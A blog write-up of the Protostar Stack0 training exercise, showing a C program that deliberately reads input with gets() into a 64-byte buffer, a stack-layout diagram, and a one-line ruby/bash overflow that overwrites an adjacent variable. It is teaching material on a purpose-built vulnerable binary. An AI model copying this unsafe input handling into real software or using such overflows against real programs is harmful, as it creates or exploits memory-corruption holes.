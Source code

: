 Author: zlowram
Date: 11-07-2014 20:32
Title: Exploit-exercises Protostar Stack0 write-up 
Template: post
Comments: enabled


This is going to be a series of posts with the write-ups of the exercises I solve from [exploit-exercises's protostar](https://exploit-exercises.com/protostar).

In this exercise we are asked to overwrite the value of the variable
"modified", as it is the one checked in order to obtain the "good boy" message.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

To do so, we need to have a clear vision of what would be the stack layout for
this code:

```markup
+------------+ Lower addresses
|    ...     | 
+------------+
|   buffer   | 
|     .      | 
|     .      |
+------------+
|  modified  |
+------------+
| stored_ebp | 
+------------+
|    ret     | 
+------------+
|    argc    | 
+------------+
|    argv    | 
+------------+
|    ...     | 
+------------+ Higher addresses
```


If we take into account that the stack grows towards lower memory addresses,
and
that is written towards higher addresses, the exercise turns to be trivial to
solve.

You only need to stuff 64 bytes into "buffer", with an extra byte with value
different than 0, to overwrite "modified".

We will use ruby and bash for writing the solution to this exercise:

```bash
#!/bin/bash

ruby -e ' puts "A"*64 + "1" ' | ./stack0
```
